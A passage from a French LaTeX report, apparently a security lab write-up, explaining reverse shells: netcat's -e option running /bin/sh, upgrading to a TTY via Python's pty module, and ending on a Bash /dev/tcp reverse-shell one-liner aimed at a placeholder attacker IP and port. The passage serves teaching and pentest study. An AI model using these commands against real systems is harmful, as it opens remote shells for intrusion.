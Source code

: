 L’option ‘ -e ‘ ou ‘ -c ‘ de Netcat va nous permettre d'exécuter un programme chez un utilisateur distant sur un port donné. Ici, le programme annoncé est : ‘ /bin/sh ‘, soit le shell.\\
Ce type de reverse-shell est extrêmement rapide à mettre en place dès qu’une faille est apparente car les commandes sont intuitives. Cependant, l’attaquant ne reçoit aucune informations au niveau du ‘ tty ‘. Un ‘ tty ‘ est une console virtuelle qui permet de taper des lignes de commandes. Il va donc falloir l’importer afin d’obtenir un reverse-shell digne de ce nom :

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{9cm}
  \setlength\figurewidth{7cm}
  \includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/Reverse-Shell/tty_importation_python.PNG}
  \caption{Importation d'un TTY}
  \label{fig:courbe-tikz}
\end{figure}

Pour remédier à ce problème, nous avons importer des commandes shell grâce à Python. Python est un langage informatique basé sur le C. Son argument ‘ -c ‘ va nous permettre de directement taper du Python sur la même ligne de commande. Le code qui suit est très simple car son fonctionnement est sa propre lecture traduite en français. Ceci nous donne : “ Importe le module pty puis, dans ce dernier, utilise la fonction spawn (faire apparaître) avec l’option ‘ /bin/bash ‘. Donc le module ‘ pty ‘ intègre une fonction qui permet de faire afficher des pseudo-terminaux avec le type de shell que l’on souhaite. Ici, nous avons choisi un bash-shell.\\
Nous obtenons à partir de ce point un bash-shell qui correspond au terminal de la cible.
Nous nous sommes, à partir de ce moment précis, introduits pour la première fois au sein d’une machine cible !\\

 \textbf{Bash TCP}\\

Au sein de cette partie, nous allons utiliser du bash avec une ouverture de port sur un serveur TCP comme ceci :

\begin{lstlisting}
    bash -i >& /dev/tcp/ip attaquant/port écoute 0>&1
\end{lstlisting}

